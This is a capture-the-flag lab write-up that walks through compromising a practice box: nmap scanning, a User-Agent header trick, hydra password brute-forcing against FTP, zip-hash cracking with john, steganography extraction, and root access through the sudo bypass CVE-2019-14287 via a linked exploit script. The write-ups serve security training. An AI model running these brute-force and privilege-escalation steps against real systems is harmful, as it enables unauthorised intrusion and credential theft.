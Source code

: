 Target: 10.10.225.156

## Enumeration:

nmap
```bash
$ nmap -sc -sV 10.10.225.156
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 06:58 PDT
Nmap scan report for 10.10.225.156
Host is up (0.29s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


## Foothold:

burpsuite

intercept -> send to repeater > try User-Agent: A,B,C,...
```
GET /agent_C_attention.php HTTP/1.1
Host: 10.10.225.156
User-Agent: C
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```
HTTP/1.1 200 OK
Date: Fri, 16 Apr 2021 14:15:37 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 177
Connection: close
Content-Type: text/html; charset=UTF-8

Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 


```

hydra
```bash
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.255.156 ftp
```

Loot:

chris:crystal

ftp
```bash
$ ftp 10.10.255.156
```

get To_agentJ.txt
```bash
$ cat To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

get cutie.png 
```bash
$ binwalk -e cutie.png
$ cd _cutie.png.extracted 
$ zip2john 8702.zip > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
> alien
$ 7z x 8702.zip
$ cat To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

```bash
$ echo 'QXJlYTUx' | base64 -d
> Area51
```

get cute-alien.jpg 
```bash
$ steghide extract -sf cute-alien.jpg 
$ cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Loot:

james:hackerrules!


## Lateral Movement:

## Priv Escalation:

Login
```bash
$ ssh james@10.10.255.156
```

```bash
$ cat user.txt
<redacted>
```

google dorking

site:foxnews.com roswell


```bash
$ sudo -l
<snip>
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

```bash
$ sudo bash
Sorry, user james is not allowed to execute '/bin/bash' as root on agent-sudo.
```

CVE-2019-14287

[Exploit Link](https://www.exploit-db.com/exploits/47502)

```bash
$ python3 47502.py
```

```bash
$ cat /root/root.txt
<redacted>
```
